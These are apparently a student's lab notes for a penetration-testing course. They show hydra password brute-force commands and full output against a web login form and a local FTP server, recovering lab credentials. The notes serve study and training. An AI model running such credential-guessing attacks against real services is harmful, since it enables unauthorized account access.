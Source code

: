 19.3.4.1

# 19.3.4.1
## 19.3.4.1.1. Run the HTTP POST password attack against the web form on your Windows client.

Here is the web form at 192.168.214.10/login.php
![46b4541d30a689211e01ef2ad6b35e99.png](:/6e05af297fdd45ada806b9892d6b6906)

Run hydra. The creds are admin:12345
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ hydra 192.168.214.10 http-form-post "/login.php:user=admin&password=^PASS^:Wrong username or password" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 05:24:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.214.10:80/login.php:user=admin&password=^PASS^:Wrong username or password
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 192.168.214.10 - login "admin" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[80][http-post-form] host: 192.168.214.10   login: admin   password: 12345
[STATUS] attack finished for 192.168.214.10 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-04 05:24:55
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ 
```


## 19.3.4.1.2. Perform an FTP password attack against the Pure-FTPd application on your local machine

For this example, we were the ones who created the username and password from previous Chapter 16 (Page 478, Listing 464).Creds -> offsec:lab. Then, we created some wordlist and ensured that the password 'lab' was in it. Finally, run the hydra command

```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ hydra -l offsec -P hydra-ftp-mutated.txt 192.168.119.214 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 05:36:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67813 login tries (l:1/p:67813), ~4239 tries per task
[DATA] attacking ftp://192.168.119.214:21/
[21][ftp] host: 192.168.119.214   login: offsec   password: lab
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-04 05:37:24
kali@kali:~/gitWorkspace/pwk/oscpExercises/19_passwordAttacks$ 
```


id: 84549bca53264b2cb380457608ac3e90
parent_id: bdd76a770d964e21ab391c1de8041a4b
created_time: 2020-10-03T22:28:50.512Z
updated_time: 2020-10-04T09:40:53.516Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-03T22:28:50.512Z
user_updated_time: 2020-10-04T09:40:53.516Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1